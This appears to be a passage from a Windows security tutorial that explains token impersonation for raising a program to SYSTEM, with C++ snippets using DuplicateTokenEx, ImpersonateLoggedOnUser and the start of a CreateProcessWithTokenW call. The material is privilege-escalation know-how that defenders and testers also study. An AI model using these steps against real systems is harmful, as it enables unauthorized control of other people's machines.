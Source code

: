 ## ImpersonateLoggedOnUser
Another very important function that is crucial to impersonate identities in Windows systems. It is needed to call this function in our program as it will allow our program thread to impersonate the security context of any logged-on user (as well service accounts) using a token handle. Which we got using DuplicateTokenEx, for example.

So, after we have a spare Token handle, by using DuplicateTokenEx, we are able to call this function, as explained in the documentation:
```c++
BOOL ImpersonateLoggedOnUser(
  HANDLE hToken
);
```

Using the code from DuplicateTokenEx() topic, we can now impersonate the token:
```c++
if(!DuplicateTokenEx(pToken, MAXIMUM_ALLOWED, NULL, seImpersonateLevel, tokenType, &pNewToken))
	{
		DWORD LastError = GetLastError();
		wprintf(L"ERROR: Could not duplicate process token [%d]\n", LastError);
		return 1;
	}
	wprintf(L"Process token has been duplicated.\n");

ImpersonateLoggedOnUser(pNewToken);
// Below this line we are allowed to call functions as SYSTEM in this thread.
```

## CreateProcessWithToken
CreateProcessWithToken is the last function we are going to call before raising ourselves to SYSTEM user. After ImpersonateLoggedOnUser is called (and not returning errors), we are able to use our Duplicated token to spawn a process under a new security context.

```c++
BOOL CreateProcessWithTokenW(
  HANDLE                hToken,
  DWORD                 dwLogonFlags,
  LPCWSTR               lpApplicationName,
  LPWSTR                lpCommandLine,
  DWORD                 dwCreationFlags,
  LPVOID                lpEnvironment,
  LPCWSTR               lpCurrentDirectory,
  LPSTARTUPINFOW        lpStartupInfo,
  LPPROCESS_INFORMATION lpProcessInformation
);
```


Continuing our code from "ImpersonateLoggedOnUser":
```c++
if(!DuplicateTokenEx(pToken, MAXIMUM_ALLOWED, NULL, seImpersonateLevel, tokenType, &pNewToken))
	{
		DWORD LastError = GetLastError();
		wprintf(L"ERROR: Could not duplicate process token [%d]\n", LastError);
		return 1;
	}
	wprintf(L"Process token has been duplicated.\n");

ImpersonateLoggedOnUser(pNewToken);
// Now we are alowed to call functions as SYSTEM in this thread.

/* Starts a new process with SYSTEM token */
STARTUPINFO si = {};
PROCESS_INFORMATION pi = {};
BOOL ret;
```